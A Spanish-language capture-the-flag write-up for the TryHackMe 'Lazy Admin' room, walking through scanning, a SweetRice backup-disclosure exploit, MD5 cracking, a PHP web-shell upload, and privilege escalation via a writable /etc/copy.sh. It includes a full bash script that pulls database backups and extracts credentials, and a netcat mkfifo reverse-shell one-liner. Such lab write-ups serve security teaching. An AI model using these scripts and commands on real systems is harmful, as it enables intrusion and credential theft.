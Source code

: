 ```yaml
---
title : Máquina|Lazy Admin|THM|EC|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/lazyAdmin/lazyAdmin.png" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/lazyadmin" style="color: lightblue;">Lazy Admin</a></p>
    </div>
</div>

<h2><font color="white"><center># LazyAdmin</center></font></h2>
* <p>Empezamos con el reconocimiento de la maquina</p>
> ping -c 1 IP
<img src="/imgs/lazyAdmin/lazyAdmin0.jpg"/>
<br>
<br>
`Vemos que es una maquina Linux por el ttl que es de 63, por proximidad hacia 64 podemos decir que la maquina es Linux.`
* <p>Empezamos con el reconocimiento de puertos.</p>
> nmap --min-rate 5000 -sV -sS -Pn --open 10.10.56.176 -o ports
<img src="/imgs/lazyAdmin/lazyAdmin1.jpg"/>
<br>
<br>
`Podemos observar que tiene el puerto ssh y http abierto.`
* <p>Ahora enumeraremos los directorios activos de la pagina web</p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.56.176/FUZZ
<img src="/imgs/lazyAdmin/lazyAdmin2.jpg"/>
<br>
<br>
`Vemos que hay un directorio llamado content.`

* <p>Miremos que trae ese directorio.</p>
>
<img src="/imgs/lazyAdmin/lazyAdmin3.jpg"/>
<br>
`Vemos que en su sistema usa SweetRice el cual miraremos si tiene vulnerabilidades.`

<br>
* <p>Miremos si tiene vulnerabilidades el sistema que tiene en uso.</p>
> searchsploit sweetrice
<img src="/imgs/lazyAdmin/lazyAdmin4.jpg"/>
* <p>Mirando bien tenemos un exploit llamado Backup Disclosure que recopila información, de una base de datos mySql.</p>
>
<img src="/imgs/lazyAdmin/lazyAdmin5.jpg"/>
<br><br>
`Lo que podemos observe es que hay una base de datos filtrada en una url en este caso http://localhost/inc/mysql_backup`
* Veamos si existe el archivo filtrado.
>
<img src="/imgs/lazyAdmin/lazyAdmin6.jpg"/>
<br><br>
`Ahora si vemos el archivo descargado podemos ver que hay un usuario llamado "manager" y la contraseña encriptada en MD5`
* <p>Por cierto pensé en la gente y desarrolle este <font color="red">exploit</font> el cual te automatiza todo.</p>
>

```bash
#!/bin/bash

ctrl_c(){
	echo -e "[\e[31;1m!\e[0m] Saliendo\n"
	exit 2
}
trap ctrl_c INT

function init(){
	echo -e "\e[31;1m[!] Cheking if exist url : $1\e[0m"

	if test """$( curl -s -X GET "http://$1/content/inc/mysql_backup/" -i | head -n 1 | cut -f2 -d' ' )""" -eq 200;then
		echo -e "\e[37;1m [+] Succes url database...\e[0m"
		echo -e "\e[37;1m [!] Cheking database exist into url\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
		echo -e "\e[37;1m [+] Name succes... \e[0m"
		echo -e "\e[37;1m [!] Extracting file db\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/$(cat .nameFile.tmp)" > database.sql
		echo -e "\e[37;1m [+] Ok data base extract in file -->> database.sql\e[0m"
		echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
		echo -e "\n\e[37;1m[ Credentials ]"
		echo -e "\e[37;1m------------------------"
		cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*" > .credentials.tmp
		echo -e "Username : $(cat .credentials.tmp | head -n 1)"
		echo -e """password : $(cat .credentials.tmp | head -n 2 | awk "NR==2")"""
		echo -e "-----------------------------"
		echo -e "\n[ all information ]"
		echo -e "--------------------------"
		cat .credentials.tmp
		echo -e "------------------------\n"
		echo -e "if there a error check file database.sql for verify."
		echo '' 
		rm -rf .nameFile.tmp
		exit 0
		
		
	else
		if test """$(curl -s -X GET "http://$1/inc/mysql_backup/" -e | head -n 1 | cut -f2 -d' ')""" -eq 200; then
			echo -e "\e[37;1m Succes url database \e[0m"
			echo -e "\e[37;1m Cheking database into url\e[0m"
			curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
			echo -e "\e[37;1m [+] Name succes... \e[0m"
  	 	        echo -e "\e[37;1m [!] Extracting file db\e[0m"
			curl -s -X GET "http://$1/inc/mysql_backup/$(cat .nameFile.tmp)" > database2.sql
			echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
			echo -e "[ Credentials ]"
			echo -e "\e[37;1m------------------------"
	               	cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*"
        	        echo -e "------------------------"
	                echo -e "if there a error check file database.sql for verify."
			rm -rf .nameFile.tmp
			exit 0
		else
			echo -e "\e[37;1m Error exploit\e[0m"
		fi
	fi
	
	
}

if test -z $1;then
	echo -e "\e[31;1m Not url declare\e[0m"
	exit 5
fi
init $1


```
* <p>Si lo ejecutamos...</p>
>
<img src="/imgs/lazyAdmin/lazyAdmin7.jpg"/>
<br><br>
`Vemos el usuario y la contraseña.`
* <p>Ahora desencriptar el hash anteriormente.</p>
> john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
>
<img src="/imgs/lazyAdmin/lazyAdmin8.jpg"/>
<br><br>
`contraseña débil.`
* <p>Ahora ya podemos ingresar al login de la pagina web.</p>
>
<img src="/imgs/lazyAdmin/lazyAdmin9.jpg"/>
* <p>Ahora nos vamos al apartado de anuncios.</p>
>
<img src="/imgs/lazyAdmin/lazyAdmin10.jpg"/>
* <p>Ahora solo colocamos un codigo php que me de una web Shell. </p>
>
<img src="/imgs/lazyAdmin/lazyAdmin11.jpg"/>
* <p>Ahora vamos a la url, donde se cargo el archivo php en este caso es en  <font color="yellow">http://localhost/content/inc/ads/( nombre de archivo).php</font></p>
>
<img src="/imgs/lazyAdmin/lazyAdmin12.jpg"/>
* <p>Nos ponemos en escucha en nuestra terminal y recargamos la pagina web anterior, de esta forma ganaremos una web Shell</p>
>
<img src="/imgs/lazyAdmin/lazyAdmin13.jpg"/>
* <p>Enumeramos el sistema para ver como podemos escalar privilegios.</p>
>
<img src="/imgs/lazyAdmin/lazyAdmin14.jpg"/>
<br><br>
`En la imagen podemos ver que tenemos permisos para ejecutar perl, un archivo llamado /home/itguy/backuo.pl que a su vez ejecuta otro archivo llamado /etc/copy.sh el cual vemos que tenemos permisos de escritura`
* Como el archivo /etc/copy.sh, en su contexto vemos que el archivo tiene una estructura para lanzar una seudo consola por una ip y un puerto, lo que haré sera remplazar la ip y el puerto y ejecutar el archivo.
> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TuIp 5555 >/tmp/f"  > /etc/copy.sh
<img src="/imgs/lazyAdmin/lazyAdmin15.jpg"/>




